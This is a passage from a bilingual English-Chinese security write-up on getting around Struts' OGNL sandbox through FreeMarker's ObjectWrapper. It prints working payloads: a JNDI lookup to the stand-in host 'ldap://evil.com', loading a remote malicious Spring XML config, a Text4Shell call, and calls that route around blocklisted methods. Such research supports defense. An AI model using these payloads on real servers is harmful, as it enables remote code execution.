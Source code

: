 -   Through `freemarker.ext.servlet.HttpRequestHashModel.getObjectWrapper()`: 通过 `freemarker.ext.servlet.HttpRequestHashModel.getObjectWrapper()` ：

```kotlin
(#request.get('.freemarker.Request').objectWrapper)
```

-   Through `freemarker.core.Configurable.getObjectWrapper()`. We need to use the BeanMap trick to access it since `freemarker.core` is also blocklisted:  
    通过 `freemarker.core.Configurable.getObjectWrapper()` 。我们需要使用 BeanMap 技巧来访问它，因为 `freemarker.core` 也被阻止了：

```shell
(#a=#@org.apache.commons.collections.BeanMap@{ })+

(#a.setBean(#application['freemarker.Configuration']))+

#a['objectWrapper']
```

Now for the fun part, what can we do with an `ObjectWrapper`? There are three interesting methods we can leverage to get RCE:  
有趣的是，我们可以用 `ObjectWrapper` 做什么？我们可以利用三种有趣的方法来获得 RCE：

**`newInstance(class, args)`**

This method will allow us to instantiate an arbitrary type. Arguments must be wrapped, but the return value is not. For example, we can trigger a JNDI injection lookup:  
这个方法允许我们实例化任意类型。参数必须包装，但返回值不包装。例如，我们可以触发一个 JNDI 注入查找：

```less
objectWrapper.newInstance(@javax.naming.InitialContext@class,null).lookup("ldap://evil.com")
```

Or, if Spring libs are available, we can get RCE by supplying a malicious [XML config](https://raw.githubusercontent.com/irsl/jackson-rce-via-spel/master/spel.xml) for `FileSystemXmlApplicationContext` constructor:  
或者，如果 Spring libs 可用，我们可以通过为 `FileSystemXmlApplicationContext` constructor 提供恶意的 XML 配置来获取 RCE：

```less
objectWrapper.newInstance(@org.springframework.context.support.FileSystemXmlApplicationContext@class,{#request.get('.freemarker.Request').objectWrapper.wrap("URL")})
```

`**getStaticModels()**`

This method allows us to get static fields from arbitrary types. The return object is wrapped in a FreeMarker’s `TemplateModel` so we need to unwrap it. An example payload levering [Text4Shell](https://securitylab.github.com/advisories/GHSL-2022-018_Apache_Commons_Text/):  
这个方法允许我们从任意类型中获取静态字段。返回对象被包装在 FreeMarker 的 `TemplateModel` 中，因此我们需要将其展开。一个示例负载勒韦林 Text4Shell：

```csharp
objectWrapper.staticModels.get("org.apache.commons.text.lookup.StringLookupFactory").get("INSTANCE").getWrappedObject().scriptStringLookup().lookup("javascript:3+4")
```

`**wrapAsAPI()**`

This method allows us to wrap any object with a `freemarker.ext.beans.BeanModel` giving us indirect access to its getters and setters methods. Struts’ sandbox will not have visibility on these calls and therefore they can be used to call any blocklisted method.  
这个方法允许我们用 `freemarker.ext.beans.BeanModel` 包装任何对象，让我们间接访问它的 getters 和 setters 方法。Struts 的沙箱对这些调用没有可见性，因此它们可以用于调用任何被阻止的方法。
